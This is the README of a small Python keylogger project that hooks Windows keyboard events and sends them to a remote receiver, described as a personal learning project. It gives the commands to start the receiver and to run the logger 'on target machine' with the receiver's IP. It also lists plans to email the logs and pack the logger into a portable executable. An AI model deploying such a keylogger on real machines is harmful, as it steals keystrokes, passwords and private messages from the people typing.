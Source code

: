 # pyKeylog

## Description
A simple keylogger written in Python 3.x using Answeror/pyhook_py3k, including a guide to how I got it to work on Windows 10. It is a very simple keylogger (keylog.py), using pyHook to hook keyboard events, and send them to a reciever (keyrec.py) that outputs the keys.

This project is intended as a learning project for myself, and I plan on adding more features later.

## Usage
First start the reciever, and then run the keylogger on target machine.
### Reciever
```
python3 keyrec.py
```
### Keylogger
```
python3 keylog.py IP_OF_RECIEVER
```

## Planned features
* Writing to file
* More methodes for sending loggs (e-mail)
* Find a way to turn the keylogger inot a small, portable executable
